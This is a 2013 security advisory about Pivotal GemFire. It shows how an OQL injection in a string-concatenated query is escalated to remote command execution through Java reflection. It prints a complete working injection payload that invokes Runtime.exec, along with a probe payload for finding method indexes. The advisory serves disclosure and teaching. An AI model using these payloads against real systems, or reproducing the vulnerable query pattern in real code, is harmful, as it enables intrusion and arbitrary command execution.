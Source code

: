# GemFire: From OQLi to RCE through reflection

## ADVISORY INFORMATION
* *Title:*		GemFire: From OQLi to RCE through reflection
* *Discovery date:* 05/04/2013
* *Release date:* 	09/09/2013
* *Credits:* 
  * Alessandro Di Pinto ([@adipinto](https://twitter.com/adipinto))
  * Aristide Fattori ([@joystick](https://twitter.com/joystick))

## VULNERABILITY DETAILS
During a penetration testing activity, we had to assess the security of some web services that interacted with an underlying GemFire database. GemFire is an in-memory distributed data management platform providing dynamic scalability, high performance, and database-like persistence.
We identified a straight injection vulnerability that could be easily exploited to dump data out of GemFire. However, this was not challenging enough, so we investigated if it could be further leveraged to escalate from a common ```' OR '1'='1'--``` injection to a juicer remote code execution.

## Pivotal GemFire
GemFire offers a language OQL (Object Query Language) quite similar to SQL, with some limitations [1]. OQL injections are also very similar to classical SQL injections, they just require some care when crafting the attack, as many keywords are reserved for future use and not yet implemented (such as UNION). While skimming through the documentation, however, we stumbled upon a very interesting feature:

**Invoking methods with parameters**
```
SELECT DISTINCT * FROM /exampleRegion p WHERE p.name.startsWith('Bo')
```

It is possible to invoke java methods on objects returned by OQL queries directly inside statements. While very useful for legitimate users, this is also an extremely dangerous feature. Indeed, through some hacks and with some limitations, it is possible to execute arbitrary java code, and even arbitrary commands.

### Exploit
We will use an example to illustrate the exploit. Consider the following vulnerable query:

```query = "SELECT DISTINCT * FROM /tab p WHERE p.name = '" + name + "'";```

where *name* is an attacker-controlled value. Our goal is to execute arbitrary commands on the victim machine, and in Java the fastest way to do that is:

```Runtime.getRuntime().exec(command);```

Unfortunately, *Runtime* did not appear to be already imported, nor we could use its full binary name inside the query. However, thanks to Java reflection API [2] we can easily overcome the problem and build this equivalent payload:

```p.name.getClass().forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(p.name.value.getClass().forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null,null), 'command'.split('asd'))```

Analyzing the payload, for those not familiar with reflection, the first step is:

```getClass().forName('java.lang.Runtime')```

and causes the class loader to load class *Runtime*. It is impossible to directly instantiate an object of this class; rather, you need to invoke the static method **getRuntime()** to obtain an instance. Method **getDeclaredMethods()** returns an array containing each *Method* declared in the class. It is possible to list them with a small snippet of code:

```
int i = 0; 
for(java.lang.reflect.Method m : "".getClass().forName("java.lang.Runtime").getDeclaredMethods()) {
  System.out.println(i++ + " " + m); 
}
```

In this case, we are interested in methods 7 and 15:

```
... 
7 public static java.lang.Runtime java.lang.Runtime.getRuntime() 
... 
15 public java.lang.Process java.lang.Runtime.exec(java.lang.String) throws java.io.IOException 
...
```

However, beware that these indexes may vary according to the JDK that is used on the victim machine, so be sure to compile and run the snippet above with a matching JDK. If you are not sure which indexes to use, you can leverage reflection to discover them, by building an injection vector such as: 

```name = "123456789' OR p.name.value.getClass().forName('java.lang.Runtime').getDeclaredMethods()[7].getName() = 'getRuntime'--```

which will return true if method with index 7 is indeed **getRuntime()**.

To invoke a method through reflection, we use **Method.invoke()**. Since **getRuntime()** is static and does not want any parameter, we can pass just null to both arguments of **invoke()**.

```
// Equivalent to: Runtime.getRuntime()
p.name.value.getClass().forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null,null) 
```

Our local java environment also accepted **invoke()** with just one null parameter, but this triggered an exception while trying to invoke it inside the OQL query. This is most likely due to the fact that the query processor of GemFire was unable to resolve the method and thus raised an exception.

Then, we must invoke **exec()** on the obtained *Runtime* instance, thus we leverage once again the **invoke()** method, but this time its first parameter will be the object returned by the piece of code to invoke **getRuntime()**:

```
// Equivalent to: Runtime.getRuntime.exec(COMMAND)
p.name.getClass().forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(p.name.value.getClass().forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null,null), COMMAND) 
```

The final note is on *COMMAND*. There are many overloaded **exec()** methods in class *Runtime*, we use the simplest one that just takes the command to be executed as a *String*. However, to pass a *String* parameter to **exec()** through **invoke()**, we must pass an *Object* array with one element (i.e., the command *String*). We were not able to create an array inline with the standard java syntax. Thus, we leveraged an hack: calling **split('asd')** on a string which does not contain *asd* will return an array of *String* with the string as the first and only element:

```
// Returns: {'command'}
'command'.split('asd')
```

Thus, we get to the final payload:

```p.name.getClass().forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(p.name.value.getClass().forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null,null), 'command'.split('asd'))```

As a final note, in our Java environment (both openjdk-7-jdk and the official Oracle version), the second argument of invoke() can be directly a String (rather than array). This did not work inside GemFire, probably for the same reason described above.

## Conclusions
Java Reflection based exploits are not novel, but always dangerous. For example, the Jboss SEAM framework was affected by a vulnerability that was exploited with a payload similar to the one we used in this case [3].

## References
[1] http://community.gemstone.com/display/gemfire/Querying - Gemfire OQL 
[2] http://docs.oracle.com/javase/tutorial/reflect/ - Java Reflection API
[3] CVE-2010-1871 - Jboss SEAM Remote Command Execution